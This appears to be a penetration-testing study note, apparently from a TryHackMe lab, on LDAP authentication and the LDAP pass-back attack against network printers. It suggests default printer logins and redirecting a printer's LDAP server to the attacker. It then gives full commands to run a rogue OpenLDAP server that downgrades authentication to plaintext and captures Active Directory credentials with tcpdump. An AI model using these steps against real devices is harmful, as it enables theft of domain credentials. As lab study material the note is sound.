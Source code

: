 LDAP (U:389)
Lightweight Directory Access Protocol
U:389 - LDAP services

https://www.youtube.com/watch?v=Xjpi8xYqPcY

**What is LDAP?**
- LDAP stands for Lightweight Directory Access Protocol.
- Manages and authenticates directories (search, add, delete, modify).
- Used for directory creation and management.
- Open and cross-platform protocol.
- Allows communication with Active Directory.
- Querying (authentication based on queries).

**Usage:**
- Used in technical applications/on-prem infrastructure.
- Authentication in Linux applications (Jenkins, Gitlab, etc.).

**Authentication Process:**
- User inputs login credentials.
- LDAP queries LDAP database to confirm match with stored credentials.

**Security Implications:**
- Risks similar to NTLM systems when exposed to the internet.
- Additional vulnerabilities due to AD credential usage.

**Attack Scenario:** attackers target LDAP services to recover AD credentials for unauthorized access.

**Security Risks:** AD credentials stored in plaintext configuration files could be compromised.

**Mitigation:** secure configuration file management and host security measures are crucial.

# LDAP Authentication
```mermaid
sequenceDiagram
    participant Client
    participant Network Connected Printer
    participant Domain Controller
    
    autonumber

	Client --) Network Connected Printer: User sends printing request<br>with AD username and password
	Network Connected Printer --) Domain Controller: Printer uses its AD credentials<br>to create LDAP bind request
	Note over Domain Controller: Retrieve user's password hash from DB<br>based on UserID
	Note over Domain Controller: Compare hashed password<br>with provided password
	
	Domain Controller --) Network Connected Printer: DC provides<br>bind response
	Network Connected Printer --) Domain Controller: Printer request<br>LDAP User search
	Domain Controller --) Network Connected Printer: User search response
	Network Connected Printer --) Domain Controller: LDAP Bind request<br>with Cleant credentials
	Domain Controller --) Network Connected Printer: Server sends Bind response
Network Connected Printer --) Client: User is authenticated<br>and print job is accepted
```

# LDAP Pass-back Attacks
https://medium.com/r3d-buck3t/pwning-printers-with-ldap-pass-back-attack-a0d8fa495210

**Attack Scenario:** attack against LDAP authentication mechanisms. Attackers gain initial access to the internal network.

**LDAP Pass-back Attacks:**
- Occur when access to device configuration is gained.
- Example: Web interface of a network printer.
- Default credentials often used (e.g., `admin:admin`, `admin:password`).
- Unable to directly extract LDAP credentials.
- Alter LDAP configuration (e.g., IP or hostname of LDAP server).
- Modify IP to attacker's IP and test LDAP configuration.
- Device attempts LDAP authentication to rogue device.
- Intercept authentication attempt to recover LDAP credentials.

## Hosting a Rogue LDAP Server
### responder
[[responder]]
Responder does not have a configuration mechanism to downgrade the authentication to plaintext login, but we can still:
- Capture the NetNTLM hash
- Then, try to crack it (you **can not** pass-the-hash with NetNTLM hashes)
### OpenLDAP
```bash
# install and load slapd  
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd  
  
#configure slapd  
sudo dpkg-reconfigure -p low slapd  
#(domain = za.tryhackme.com , everything else leave default)  

#downgrading the supported authentication mechanisms
# ensure that our LDAP server only supports PLAIN and LOGIN authentication methods.
#Save in file "olcSaslSecProps.ldif"  
dn: cn=config  
replace: olcSaslSecProps  
olcSaslSecProps: noanonymous,minssf=0,passcred  

# Commit the new changes with **_ldapmodify_** and restart the server.
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f /home/kali/Downloads/exploits/olcSaslSecProps.ldif && sudo service slapd restart

# verify that our rogue LDAP server's configuration has been applied
$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```
**Use a `tcpdump`/`Wireshark` to capture the  LDAP credentials**
```bash
$ sudo tcpdump -SX -i breachad tcp port 389
```
![[image-20.png]]

```bash
# stop your LDAP server
$ sudo systemctl disable --now slapd
```
### msf6 auxiliary(server/capture/ldap)
